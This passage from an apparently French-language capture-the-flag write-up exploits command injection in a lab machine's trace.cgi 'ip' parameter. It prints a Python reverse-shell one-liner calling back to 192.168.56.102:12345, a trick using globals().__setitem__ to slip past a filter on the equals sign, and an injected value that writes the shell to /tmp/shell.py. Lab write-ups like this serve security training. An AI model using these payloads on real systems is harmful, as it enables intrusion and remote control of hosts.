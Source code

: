 ```console
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
import socket,subprocess,os;s%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p%3dsubprocess.call(["/bin/sh","-i"]);
</pre>
```

Astuce : l'assignation d'une variable en Python peut très bien se faire sans signe égal, grâce à la méthode ```__setitem__```.

```import socket,subprocess,os;globals().__setitem__("s", socket.socket(socket.AF_INET,socket.SOCK_STREAM));s.connect(("192.168.56.102",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);globals().__setitem__("p", subprocess.call(["/bin/sh","-i"]));' > /tmp/shell.py```

Ainsi, la bonne valeur du paramètre ```ip``` transmis via Burp ressemble à ceci.

```127.0.0.1;echo 'import socket,subprocess,os;globals().__setitem__("s", socket.socket(socket.AF_INET,socket.SOCK_STREAM));s.connect(("192.168.56.102",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);globals().__setitem__("p", subprocess.call(["/bin/sh","-i"]));' > /tmp/shell.py```

Ah au fait, c'est __python3__ qui est installé ! Il faudra donc appeler le binaire ```/usr/bin/python3``` et non ```python``` simplement.

```console
root@blinils:~# export WEST='JUNK; which python'

root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
</pre>

root@blinils:~# export WEST='JUNK; which python3'

root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
/usr/bin/python3
</pre>
```

![Affichage de l'image Burp_reverseshell.png](images/Burp_reverseshell.png)
